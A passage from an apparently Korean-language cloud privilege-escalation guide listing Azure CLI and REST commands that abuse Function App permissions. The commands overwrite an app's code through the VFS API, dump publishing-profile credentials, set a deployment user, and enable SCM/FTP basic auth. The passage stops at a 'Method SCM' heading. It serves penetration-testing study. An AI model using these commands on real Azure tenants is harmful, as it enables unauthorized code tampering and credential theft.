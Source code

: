 ### `Microsoft.Web/sites/hostruntime/vfs/write`

이 권한을 사용하면 **웹 콘솔을 통해 애플리케이션의 코드를 수정할 수 있습니다** (또는 다음 API 엔드포인트를 통해):
```bash
# This is a python example, so we will be overwritting function_app.py
# Store in /tmp/body the raw python code to put in the function
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subcription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/hostruntime/admin/vfs/function_app.py?relativePath=1&api-version=2022-03-01" \
--headers '{"Content-Type": "application/json", "If-Match": "*"}' \
--body @/tmp/body
```
### `Microsoft.Web/sites/publishxml/action`, (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write`)

이 권한은 기본적으로 **기본 인증 자격 증명**을 포함하는 모든 게시 프로필을 나열할 수 있게 해줍니다:
```bash
# Get creds
az functionapp deployment list-publishing-profiles \
--name <app-name> \
--resource-group <res-name> \
--output json
```
또 다른 옵션은 자신의 자격 증명을 설정하고 다음을 사용하여 사용하는 것입니다:
```bash
az functionapp deployment user set \
--user-name DeployUser123456 g \
--password 'P@ssw0rd123!'
```
- **REDACTED** 자격 증명

자격 증명이 **REDACTED**로 표시된 경우, 이는 **SCM 기본 인증 옵션을 활성화해야 하기 때문**이며, 이를 위해 두 번째 권한(`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write):`이 필요합니다.
```bash
# Enable basic authentication for SCM
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'

# Enable basic authentication for FTP
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}
```
- **Method SCM**

